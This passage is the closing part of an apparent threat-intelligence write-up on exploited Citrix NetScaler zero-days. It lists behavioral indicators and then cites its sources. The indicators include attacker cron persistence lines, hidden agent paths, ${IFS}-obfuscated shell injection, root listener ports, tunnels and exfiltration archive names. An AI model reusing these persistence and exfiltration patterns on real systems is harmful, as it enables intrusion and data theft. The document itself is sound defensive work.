**Behavioral.** DTLS `SSL_HANDSHAKE_FAILURE` with `Reason "Handshake failure-Internal Error"` correlated with `pitboss NOT restarting NSPPE`; mDNS `platypus-mesh.tcp` on UDP/5353; HTTP 404 responses with large bodies to `/vpn/media/*.ico` or fake-CSS paths (including `receiver.v2.min.css` and `LogonUISimple.html.style.min.css`); `${IFS}`-obfuscated shell in any logged field; nsmon check-in `y7lg7jq57b host=... port=... uid=0 ...` over UDP 39725 and root listeners in 41000-41999 (plus 9909/9910 for the analog kit, and chisel tunnels from the exfil host's build); cron lines `*/5 * * * * root perl /var/tmp/.nsmon/nsmon.pl`, `* * * * * /bin/perl /nsconfig/.slap/agent.pl`, `*/5 * * * * /bin/sh /nsconfig/.slap/boot.sh`; `/nsconfig/rc.netscaler` lines launching `/nsconfig/.slap/*`; analog-kit gen 2/3 artifacts `/var/tmp/.slap-watch.pid` and `/var/tmp/.s2loot.log`; uploads named `loot_nsconfig.tgz`, `loot_nshist.tgz`, `loot_httpd.conf`, `loot_diag.txt`, `sysbackup_*`, `update_result_*.tgz`; self-signed certs with subject `platypus-ingress` or CN `Platypus project default` (notBefore 2026-09-02) and CN `Platypus project b51a65e0-e20b-444d-950e-8ff34b88c472` (notBefore 2026-09-28).

## Sources

Primary vendor research and advisories: [Google Threat Intelligence](https://cloud.google.com/blog/topics/threat-intelligence/defending-against-active-exploitation-of-citrix-netscaler-adc-and-gateway-appliances), [Rapid7 ETR](https://www.rapid7.com/blog/post/etr-zero-day-exploitation-of-citrix-netscaler-adc-and-gateway-cve-2026-88771-and-cve-2026-88772/), [Unit 42](https://unit42.paloaltonetworks.com/netscaler-zero-days-exploited/), [Corelight Labs](https://corelight.com/blog/hunting-citrix-netscaler-zero-days-corelight), [TENEX](https://www.linkedin.com/pulse/what-tenex-observed-inside-active-exploitation-netscaler-zero-day-gzbme), [Sygnia](https://www.sygnia.co/threat-reports-and-advisories/actively-exploited-netscaler-vulnerabilities/), [watchTowr Labs](https://labs.watchtowr.com/oh-look-the-foot-gun-went-off-again-citrix-netscaler-preauth-command-injection-cve-2026-88771/), [CERT-EU](https://cert.europa.eu/blog/taking-execute-logging-a-bit-too-literally-cve-2026-88771), [Citrix CTX697096](https://support.citrix.com/security-bulletins/CTX697096), [CyberScoop](https://cyberscoop.com/citrix-netscaler-zero-day-attacks-three-weeks-undetected/). PoCs: [watchTowr 88771](https://github.com/watchtowrlabs/watchTowr-vs-Citrix-Netscaler-CVE-2026-88771), [watchTowr 88772](https://github.com/watchtowrlabs/watchTowr-vs-Citrix-Netscaler-CVE-2026-88772), [craigsblackie evidence repo](https://github.com/craigsblackie/cve-2026-88771-netscaler). Community IOC packs: [Arctic Wolf wolf-tools](https://github.com/rtkwlf/wolf-tools), [PitScaler](https://github.com/emilstahl/pitscaler), [NCSC-NL rules](https://github.com/NCSC-NL/citrix-2025).

Corrections welcome, as always. If you are mid-incident on this one: patch, hunt the logs, rotate everything the appliance ever held.
